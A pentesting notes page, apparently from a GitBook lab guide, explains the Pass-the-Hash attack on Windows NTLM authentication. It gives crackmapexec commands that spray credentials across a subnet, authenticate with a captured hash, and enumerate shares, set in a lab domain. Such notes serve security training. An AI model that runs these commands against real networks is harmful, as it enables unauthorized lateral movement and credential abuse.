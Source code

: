 # 🥸 Pass-the-Hash

Pass the hash (PtH) is a type of attack used in the context of Windows authentication. In this attack, an attacker captures the NTLM hash of a user's password and uses it to authenticate to a remote system without ever cracking or learning the plaintext password. This is possible because Windows systems use NTLM hashes for authentication in many situations, even when the original password is a plaintext string.

<figure><img src="../../../.gitbook/assets/image (24) (1).png" alt=""><figcaption></figcaption></figure>

We are going to start with crackmapexec:

```
crackmapexec smb 192.168.138.0/24 -u fcastle -d MARVEL.local -p Password1
```

* `smb`: This specifies the protocol to use for the scan. In this case, SMB (Server Message Block) is chosen, which is a common protocol used for sharing files, printers, and serial ports in a network.
* `192.168.138.0/24`: This is the IP range to scan. In this case, it's scanning the subnet `192.168.138.0/24`, which includes all IP addresses from `192.168.138.1` to `192.168.138.254`.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now another variation:

```
crackmapexec smb 192.168.138.0/24 -u administrator -H [NTLM1 hash] --local-auth
```

\-H \[NTLM1 hash]`: This specifies the NTLM hash of the password to use for the scan. In this case, the hash is provided in the command itself, enclosed in square brackets. 6.` --local-auth\`: This option tells CrackMapExec to use the credentials provided in the command to authenticate locally on each target machine before attempting to connect shares

you can add a --shares to enumerate shares for the users

or see plenty of other commands with:

```
crackmapexec smb -L
```

{% content-ref url="../../../interacting-with-protocols-and-tools/tools/crackmapexec.md" %}
[crackmapexec.md](../../../interacting-with-protocols-and-tools/tools/crackmapexec.md)
{% endcontent-ref %}

```
cmedb
```

`cmedb` is a database tool used by CrackMapExec (CME) to store and manage data related to penetration testing and post-exploitation activities.

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
